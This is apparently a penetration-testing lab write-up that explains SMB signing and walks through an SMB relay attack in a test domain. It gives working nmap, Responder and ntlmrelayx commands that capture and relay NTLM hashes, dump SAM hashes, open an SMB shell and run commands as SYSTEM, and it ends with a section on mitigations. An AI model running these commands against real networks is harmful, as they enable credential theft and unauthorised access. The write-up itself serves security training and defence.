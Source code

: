 # What is SMB?

SMB stands for Server Message Block. It's a network file sharing protocol that allows applications, clients, and servers to communicate and request services from each other over a network. SMB facilitates the sharing of files, printers, and other resources between devices on a network, typically in a Windows environment. SMB is commonly used for accessing shared files and folders on local area networks (LANs) and is an integral part of Windows networking.

# What is SMB Signing

SMB signing (also known as security signatures) is a security mechanism in the SMB protocol. SMB signing means that every SMB message contains a signature that is generated by using the session key. The client puts a hash of the entire message into the signature field of the SMB header.

# What is A SMB Relay Attack

An SMB relay attack is a type of cyber attack that exploits the authentication process used in the Server Message Block (SMB) protocol. In this attack, an attacker intercepts and relays SMB authentication messages between a client and a server to gain unauthorized access to network resources.

**Requirements for performing an SMB relay attack**  
- SMB signing must be disabled or not enforced on the target  
- Must be on the local network  
- For valuable outcomes, the relayed user’s credentials must have local admin status on the machine.
- You cannot relay credentials to the same machine they were captured from

# Attack Setup

**In our attack scenario:**

- A user named Frank Castle (fcastle) from the DEUSX.local domain has local administrator privileges on two machines.
- These machines have SMB signing enable but not required which is one of the criterion required to perform this attack 

**Steps to perform this attack:**

- Identify the machines that  do not require SMB signing. Nmap can be used for this.
- Configure and startup the necessary tools (ntlmrelayx and responder)
- Next, an event needs to occur such as a user trying to access a share which could lead to LLMNR Poisoning and thereby leads to a user's hash being intercepted and relayed.
- Finally, after the he intercepted credentials have been relayed, this can then lead to gaining unauthorized access.

# SMB Relay Attack DEMO

## Step 1: Scan Network for vulnerable targets

Using Nmap we can scan the entire network/subnet to discover targets with SMB signing enabled but not required.

![](attachments/20240302225536.png)

`nmap --script=smb2-security-mode.nse -p445 192.168.0.0/24 -Pn`

Using the smb2-security-mode script and scanning port 445 (SMB) `-p445` we scan the entire subnet to discover which machines have SMB signing not required. The `-Pn` switch is used to tell Nmap to not bother pinging targets before scanning.

Scan results:

![](attachments/20240302225725.png)

2 Machines discovered do not require SMB signing `192.168.0.182` and `192.168.0.178`. Now to add the IPs  of the machines to a text file like `targets.txt`.

## Step 2: Disable SMB and HTTP in the responder config file

File is located at `/etc/responder/Responder.conf`

![](attachments/20240302225938.png)

## Step 3: Start Responder

Start Responder on the same interface connected to your target network

![](attachments/20240302230017.png)

`sudo responder -I wlan0 -dPv`

- -I Specify interface
- -d Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.
- -P Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn’t need to be ON. This option is highly effective.
- -v Increase verbosity.

## Step 4: Start ntlmrelayx to perform the SMB Relay attack

Ensure to specify the file that contains the target IPs 'targets.txt'

![](attachments/20240302230214.png)

`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

## Step 2: An Even Occurs in the Network

Now we wait for the victim to attempt to access a share. The user fcastle will try and access a share named 'ECORP-DC' and mistakenly type 'ECCORP-DC'

![](attachments/20240302230556.png)

****
![](attachments/20240302230641.png)

Immediately the event occurred, Responder successfully intercepted the victim's hash and used it to authenticate another machine on the network as a local administrator and ntlmrelay successfully dumped the local SAM hashes. These can then be cracked using hashcat or John the ripper.

Even better, we don't even need to crack the hash to gain access to the machine, we can just perform a  pass-the-hash attack to gain access to machine.

## Further Attacks

An interactive smbclient can be obtained by adding a -i switch to the ntlmrelyax syntax:
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -i`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

![](attachments/20240302230921.png)

An interactive SMB client shell has been started on 127.0.0.1:11000 which can then be accessed using netcat.

![](attachments/20240302231035.png)

Commands can also be executed directly by using the -c switch.
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c 'command'`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'command'`

![](attachments/20240302231239.png)

The command `whoami` was successfully executed on the target system and we are `NT AUTHORITY/SYSTEM`

# SMB Relay Attack Mitigation

**Mitigation Strategies**:

- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies

- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: If kerberos stops working, Windows defaults back to NTLM

- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need to DA)
	- Con: Enforcing the policy may be difficult

- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

**To enforce SMB signing, enable the following policies in Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options:**

On the client side:

- Microsoft network client: Digitally sign communications (always)
- Microsoft network client: Digitally sign communications (if server agrees)

On the server side:

- Microsoft network server: Digitally sign communications (always)
- Microsoft network server: Digitally sign communications (if client agrees)

![](attachments/smb-9-1280x918.png)

[source](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)

Thanks for Reading 👋